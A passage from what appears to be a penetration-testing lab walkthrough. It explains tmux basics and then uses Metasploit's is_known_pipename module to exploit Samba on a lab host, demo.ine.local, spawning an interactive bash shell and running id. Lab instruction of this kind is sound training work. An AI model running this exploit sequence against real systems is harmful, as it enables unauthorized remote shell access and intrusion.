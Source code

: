 #### 2. Using Tmux for Multiple Terminal Sessions

Since we need to work with multiple terminal sessions, we use **Tmux**, a terminal multiplexer, to manage multiple terminal windows efficiently within one session.

Start Tmux:

```bash
tmux
```

**Tmux shortcuts**:
- **CTRL + B + C**: Opens a new terminal window.
- **CTRL + B + Page Up/Page Down**: Allows you to scroll up or down in the terminal.
- **Q**: Exits scroll mode.

---

#### 3. Exploiting the Target Using Metasploit

We will use **Metasploit** to exploit the target. First, launch Metasploit:

```bash
msfconsole
```

Set the target's IP address globally using `setg`:

```bash
setg rhosts demo.ine.local
```

Search for Samba-related exploits (we assume the target has Samba vulnerabilities):

```bash
search samba
```

Select the appropriate Samba exploit module:

```bash
use exploit/linux/samba/is_known_pipename
```

Run the exploit to execute the attack:

```bash
run
```

After running the exploit, if successful, you should have a shell on the target. Spawn an interactive bash shell on the target system:

```bash
/bin/bash -i
```

Check the user privileges and system information:

```bash
id
```
